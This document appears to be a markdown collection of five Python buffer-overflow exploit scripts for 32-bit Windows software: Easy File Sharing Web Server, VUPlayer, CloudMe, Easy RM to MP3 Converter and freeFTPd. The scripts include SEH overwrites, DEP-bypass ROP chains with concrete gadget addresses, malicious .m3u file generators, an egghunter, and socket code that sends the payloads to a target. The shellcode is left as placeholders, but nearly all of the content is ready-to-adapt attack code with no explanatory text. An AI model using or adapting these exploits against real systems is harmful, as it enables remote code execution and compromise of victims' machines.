



~ Vunerable Software Exploitation (32-Bit)::: [ CONTENTS ]::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::: @ Product Name: Easy File Sharing Web Server 7.2 @ Product Name: VUPlayer 2.49 @ Product Name: CloudMe 1.11.2 @ Product Name: Easy RM to MP3 Converter 2.7.3.700 @ Product Name: freeFTPd 1.0.8::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::: ########################################################################### @ Product Name: Easy File Sharing Web Server 7.2 # Vulnerability Type: Remote SEH DEP Bypass # Machine: Windows 10 (32bit) # Author: ABX########################################################################### import socket import os import sys import struct from struct import pack server = sys.argv[1] port = 80 shellcode = {SHELLCODE IS HERE} CRASH_LEN = 5000 OFFSET = 4065 OFFSET_1 = 869 rop = b"\x90" * 16 rop += pack("<L", (0x10024d50)) rop += pack("<L", (0x10015442)) rop += pack("<L", (0xffffffc0)) rop += pack("<L", (0x100231d1)) rop += pack("<L", (0x1002310c)) rop += pack("<L", (0x61C832E0)) rop += pack("<L", (0x1001fb4e)) rop += pack("<L", (0x10023313)) rop += pack("<L", (0x61c24169)) rop += pack("<L", (0x10015442)) rop += pack("<L", (0xfffffafc)) rop += pack("<L", (0x100231d1)) rop += pack("<L", (0x1001da09)) rop += pack("<i", (0x10015442)) rop += pack("<i", (0x61C832D0)) rop += pack("<i", (0x100203b9)) rop += pack("<i", (0x61C832DC)) rop += pack("<i", (0x1002248c)) rop += pack("<i", (0x61c0a798)) rop += pack("<L", (0x1001d626)) rop += pack("<L", (0x10021a3e)) rop += pack("<L", (0x10023115)) rop += pack("<L", (0x751e33c1)) rop += pack("<L", (0x10015442)) rop += b"\x90"*4 rop += pack("<L", (0x1002324d)) rop += pack("<L", (0x1002466e)) rop += pack("<L", (0x100240c2)) filler = b"A" * OFFSET_1 filler_2 = b"B" * (OFFSET - len(filler) - len(rop) - len(shellcode)) eip = pack("<L", (0x1002280a)) extra = b"\xcc" * (CRASH_LEN - len(filler) - len(filler_2)) final_payload = filler + rop + shellcode + filler_2 + eip + extra buffer = b"GET " buffer += final_payload buffer += b" HTTP/1.1\r\n" expl = socket.socket(socket.AF_INET, socket.SOCK_STREAM) expl.connect((server, port)) expl.send(buffer) expl.close()
########################################################################### @ Product Name: VUPlayer 2.49 # Vulnerability Type: DEP Bypass # Machine: Windows 10 (32bit) # Author: ABX########################################################################### import sys from struct import pack import os def main(): filename = "exploit.m3u" size = 1012 shellcode = {SHELLCODE IS HERE} rop = pack("<L", (0x10015fe7)) rop += pack("<L", (0x10040284)) rop += pack("<L", (0x1001eaf1)) rop += pack("<L", (0x10030950)) rop += pack("<L", (0x1001d892)) rop += pack("<L", (0x1002a659)) rop += pack("<L", (0x10015fe7)) rop += pack("<L", (0xfffffafc)) rop += pack("<L", (0x10014db4)) rop += pack("<L", (0x10032f32)) rop += pack("<L", (0x10015f82)) rop += pack("<L", (0xffffffc0)) rop += pack("<L", (0x10014db4)) rop += pack("<L", (0x10038a6d)) rop += pack("<L", (0x100163c7)) rop += pack("<L", (0x775833c1)) rop += pack("<L", (0x10015f77)) rop += b"\x90"*4 rop += pack("<L", (0x1001dc04)) rop += pack("<L", (0x1003d5aa)) rop += pack("<L", (0x1001d7a5)) eip = pack("<L", (0x1004041d)) filler = b"A" * (size) extra = b"C" * (3000 - len(filler) - len(eip) - len(rop) - len(shellcode)) final_payload = filler + eip + rop + shellcode + extra try: with open(filename, "wb") as f: f.write(final_payload) print("m3u File Created successfully") except Exception as e: print(f"Error creating file: {e}") if __name__ == "__main__": main()
########################################################################### @ Product Name: CloudMe 1.11.2 # Vulnerability Type: DEP Bypass # Machine: Windows 10 (32bit) # Author: ABX########################################################################### from struct import pack import socket, sys TARGET_IP = "127.0.0.1" TARGET_PORT = 8888 target = (TARGET_IP, TARGET_PORT) crash = 2000 offset = 1052 va = pack("<L", (0xBEEFBEEF)) va += pack("<L", (0x46464646)) va += pack("<L", (0x47474747)) va += pack("<L", (0x48484848)) va += pack("<L", (0x49494949)) va += pack("<L", (0x51515151)) shellcode = {SHELLCODE IS HERE} filler = b"A"* ( offset - len(va)) eip = pack("<L", (0x68c7e83d)) eip += pack("<L", (0xDEADDEAD)) eip += pack("<L", (0x6d9e4e3c)) eip += pack("<L", (0xDEADDEAD)) eip += pack("<L", (0x68aef542)) rop = pack("<L", (0x68b48196)) rop += pack("<L", (0x68d3c95d)) rop += pack("<L", (0xffffffe4)) rop += pack("<L", (0x68d8736a)) rop += pack("<L", (0x68b55c9f)) rop += pack("<L", (0x68cd0cd4)) rop += pack("<L", (0x690398A0)) rop += pack("<L", (0x68c7ee65)) rop += pack("<L", (0x68af0169)) rop += pack("<L", 0x0) * 5 rop += pack("<L", (0xDEADDEAD)) rop += pack("<L", (0xDEADDEAD)) rop += pack("<L", (0x68c75626)) rop += pack("<L", (0x68ca33cb)) rop += pack("<L", (0x68ca33cb)) rop += pack("<L", (0x68ca33cb)) rop += pack("<L", (0x68ca33cb)) rop += pack("<L", (0x6996d35d)) rop += pack("<L", (0xDEADDEAD)) rop += pack("<L", (0x68cee06d)) rop += pack("<L", (0x68c05013)) rop += pack("<L", (0x68d3a579)) rop += pack("<L", (0xfffffdf0)) rop += pack("<L", (0x68ad422b)) rop += pack("<L", (0x68af0169)) rop += pack("<L", 0x0) * 5 rop += pack("<L", (0xDEADDEAD)) rop += pack("<L", (0xDEADDEAD)) rop += pack("<L", (0x68c75626)) rop += pack("<L", (0x68ca33cb)) rop += pack("<L", (0x68ca33cb)) rop += pack("<L", (0x68ca33cb)) rop += pack("<L", (0x68ca33cb)) rop += pack("<L", (0x6996d35d)) rop += pack("<L", (0xDEADDEAD)) rop += pack("<L", (0x68cee06d)) rop += pack("<L", (0x68c05013)) rop += pack("<L", (0x68d3a579)) rop += pack("<L", (0xfffffdf4)) rop += pack("<L", (0x68ad422b)) rop += pack("<L", (0x68af0169)) rop += pack("<L", 0x0) * 5 rop += pack("<L", (0xDEADDEAD)) rop += pack("<L", (0xDEADDEAD)) rop += pack("<L", (0x68c75626)) rop += pack("<L", (0x68ca33cb)) rop += pack("<L", (0x68ca33cb)) rop += pack("<L", (0x68ca33cb)) rop += pack("<L", (0x68ca33cb)) rop += pack("<L", (0x68cd0cd4)) rop += pack("<L", (0xffffffff)) rop += pack("<L", (0x68cef5b2)) rop += pack("<L", (0x68af0169)) rop += pack("<L", 0x0) * 5 rop += pack("<L", (0xDEADDEAD)) rop += pack("<L", (0xDEADDEAD)) rop += pack("<L", (0x68c75626)) rop += pack("<L", (0x68ca33cb)) rop += pack("<L", (0x68ca33cb)) rop += pack("<L", (0x68ca33cb)) rop += pack("<L", (0x68ca33cb)) rop += pack("<L", (0x68cd0cd4)) rop += pack("<L", (0x80808080)) rop += pack("<L", (0x68d3a579)) rop += pack("<L", (0x7f7f8f80)) rop += pack("<L", (0x68d8736a)) rop += pack("<L", (0x68af0169)) rop += pack("<L", 0x0) * 5 rop += pack("<L", (0xDEADDEAD)) rop += pack("<L", (0xDEADDEAD)) rop += pack("<L", (0x68c75626)) rop += pack("<L", (0x68ca33cb)) rop += pack("<L", (0x68ca33cb)) rop += pack("<L", (0x68ca33cb)) rop += pack("<L", (0x68ca33cb)) rop += pack("<L", (0x68cd0cd4)) rop += pack("<L", (0x80808080)) rop += pack("<L", (0x68d3a579)) rop += pack("<L", (0x7f7f7fc0)) rop += pack("<L", (0x68d8736a)) rop += pack("<L", (0x68af0169)) rop += pack("<L", 0x0) * 5 rop += pack("<L", (0xDEADDEAD)) rop += pack("<L", (0xDEADDEAD)) rop += pack("<L", (0x68c75626)) rop += pack("<L", (0x6996d35d)) rop += pack("<L", (0x42424242)) rop += pack("<L", (0x68d3a579)) rop += pack("<L", (0xffffffec)) rop += pack("<L", (0x68d8736a)) rop += pack("<L", (0x68be726b)) rop += pack("<L", (0x6eb536e9)) padding = b"\x90" * 0x18 extra = b"\xcc" * (crash - len(filler) - len(eip) - len(rop) - len(padding) - len(shellcode) ) final_payload = filler + va + eip + rop + padding + shellcode + extra with socket.create_connection(target) as sock: sent = sock.send(final_payload) print(f"sent {sent} bytes")
########################################################################### @ Product Name: Easy RM to MP3 Converter 2.7.3.700 # Vulnerability Type: Stack Overflow # Machine: Windows 10 (32bit ?) <- I dont recall. # Author: ABX########################################################################### #!/usr/bin/python3 from struct import pack def main(): filename = "crash.m3u" filler = b"A" * 26081 eip = pack("<L", (0x1001b058)) offset = b"B" * 4 nops_sled = b"\x90" * 16 shellcode = <shellcode is here> shellcode += b"D" * (27581 - len(filler) - len(eip) - len(offset) - len(shellcode)) inputBuffer = filler + eip + offset + nops_sled + shellcode try: with open(filename, "wb") as f: f.write(inputBuffer) print("m3u File Created successfully") except Exception as e: print(f"Error creating file: {e}") if __name__ == "__main__": main()########################################################################### @ Product Name: freeFTPd 1.0.8 # Vulnerability Type: anonymous-auth PASS SEH buffer overflow # Machine: Windows 10 (32bit ?) # Author: ABX########################################################################### --[ HOME ]--#!/usr/bin/python3 import socket, sys from struct import pack try: host = sys.argv[1] port = 21 target = (host, port) size = 2000 shellcode = {shellcode is here} egghunter = {egghunter is here} marker = b"w00tw00t" input_buffer = b'PASS anonymous' input_buffer += b"\x90" * (792 - len(egghunter) - 4) input_buffer += egghunter input_buffer += b"\xEB\x80\x90\x90" input_buffer += b"\xc0\x3d\x42\x00" input_buffer += b"\x90" * 8 input_buffer += marker input_buffer += shellcode nothing = b"\x90" * (size - len(input_buffer)) # useless final_buff = input_buffer + nothing + b"\r\n" with socket.create_connection(target) as sock: sock.recv(1024) sock.send(b"USER anonymous\r\n") sock.recv(1024) sock.send(final_buff) sock.close() print("\nDone!") except socket.error: print("Could not connect!)"